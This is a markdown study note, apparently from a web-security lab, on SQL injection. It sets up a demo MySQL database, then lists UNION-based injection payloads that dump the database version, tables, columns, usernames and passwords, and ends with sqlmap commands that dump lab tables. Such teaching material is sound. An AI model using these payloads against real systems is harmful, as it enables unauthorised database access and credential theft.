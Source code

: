 # SQL Injection - Setup

```bash
# Start MySQL service
$ sudo systemctl start mysql

# Login to MySQL
$ sudo mysql

# Create database and tables
CREATE DATABASE sqldemo;
USE sqldemo;
CREATE TABLE users (
        username varchar(255),
        password varchar(255),
        age int,
        PRIMARY KEY (username)
);

# Insert data into the users table
INSERT INTO users (username, password, age)
VALUES ("jeremy", "letmein", 30), ("jessamy", "kittems", 31);
```

# Example of SQL Injection - UNION

- Check for SQL injection possibility with:
```
admin' OR 1=1# 
```
or 
```
admin' OR 1=1-- - 
```

- Determine the number of columns with:
```
admin' union select null,null,null#
```

# Dumping MySQL Version

```
admin' union select null,null,version()#
```

# Dumping Table Names

```
admin' union select null,null,table_name from information_schema.tables#
```

# Dumping Column Names

```
admin' union select null,null,column_name from information_schema.columns#
```

# Data Exfiltration

- Dump usernames:
```
admin' union select null,null,username from injection0x01#
```

- Dump passwords:
```
admin' union select null,null,password from injection0x01#
```

# SQL Injection - Blind Part 1

- Setup: Use `sqlmap` and `burpsuite`.
- Login with `jeremy:jeremy`.
- Intercept traffic in Burp Suite.
- Forward requests and view responses in "Proxy >> HTTP history".
- Check "HTTP history" tab for requests.
- Perform basic SQLI like `jeremy' OR 1=1#`.
- Use automated scanning with `sqlmap`.

# SQL Injection - Blind Part 2

- Save the request with the `Cookie: session` parameter.
- Use `sqlmap` with the saved request to identify vulnerabilities.
- Dump tables with commands like:

```bash
$ sqlmap -r request.txt --level=2 --dump -T injection0x02
```

# SQL Injection - Challenge Walkthrough

## Manual 

- Use the `UNION SELECT` query.
- Add `null` values until successful, e.g.:

```
senpai' union select null,null,null,null#
```

- Enumerate tables and dump content.

## SQLMAP

- Intercept request in Burp and save to file.
- Run SQLMAP to dump tables, e.g.:

```bash
$ sqlmap -r request.txt --level=2 --dump -T injection0x03_users
```